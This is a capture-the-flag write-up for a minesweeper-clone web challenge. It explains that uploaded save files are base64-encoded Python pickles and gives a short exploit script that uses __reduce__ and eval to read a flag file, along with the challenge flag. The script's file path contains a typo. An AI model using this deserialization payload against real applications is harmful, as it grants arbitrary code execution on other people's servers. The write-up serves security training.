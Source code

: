 # Sweeper

Author: Tsuto

## Description

A classic minesweeper clone with a twist.

## Solution

This minesweeper clone has a RCE vulnerability on the upload function. The save file is a base64 encoded pickle object. This can be Identified by the first 2 bytes being 0x80 and 0x04. 0x80 is typically the first byte in pickled data with the second byte, 0x04, being the protocol number.

In the pickled data, the `game_id` is vulnerable to code injection. Using python `open('/flag.txt').read()`, it is possible to read the flag and have it print to the web console.

Loading the resulting pickle file will successfully exploit the web app and print the flag.

![](img/flag.png)

Flag: `USCG{f1ag5_4r3_a11_m1n3}`

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return(eval, ("{'game_id':open('/flag,txt').read()}",))

pickled = pickle.dumps(RCE())

f = open('exploit.save', 'wb')
f.write(base64.urlsafe_b64encode(pickled))
f.close()
```

